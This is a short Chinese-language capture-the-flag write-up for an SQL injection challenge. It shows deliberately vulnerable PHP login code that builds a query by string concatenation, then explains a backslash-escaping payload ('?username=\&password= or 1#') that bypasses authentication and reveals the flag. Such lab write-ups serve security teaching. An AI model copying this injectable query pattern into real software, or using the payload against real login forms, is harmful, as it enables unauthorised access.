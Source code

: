 
 

### [SQL Injection](http://chinalover.sinaapp.com/web15/index.php)

知识点：PHP代码审计，sql语言基础，\转义单引号

题目：

```
<!--
#GOAL: login as admin,then get the flag;
error_reporting(0);
require 'db.inc.php';

function clean($str){
	if(get_magic_quotes_gpc()){
		$str=stripslashes($str);
	}
	return htmlentities($str, ENT_QUOTES);
}

$username = @clean((string)$_GET['username']);
$password = @clean((string)$_GET['password']);

$query='SELECT * FROM users WHERE name=\''.$username.'\' AND pass=\''.$password.'\';';
$result=mysql_query($query);
if(!$result || mysql_num_rows($result) < 1){
	die('Invalid password!');
}

echo $flag;
-->
Invalid password!
```

- 代码中clean()函数去掉转义，htmlentities($str, ENT_QUOTES)会转换单引号和双引号。这里我们只能通过**引入反斜杠**，**转义原有的单引号**，改变原sql语句的逻辑，导致sql注入。

payload如下：

```
?username=\&password= or 1#//要urlcode编码一下，不然#会被浏览器当作空字符
```

于是sql查询语句为：

```
SELECT * FROM users WHERE
name='\' AND pass='            //此时，\'已被转义为一个字符，不会起到引号的作用
or 1
#'
```

flag:nctf{sql_injection_is_interesting}
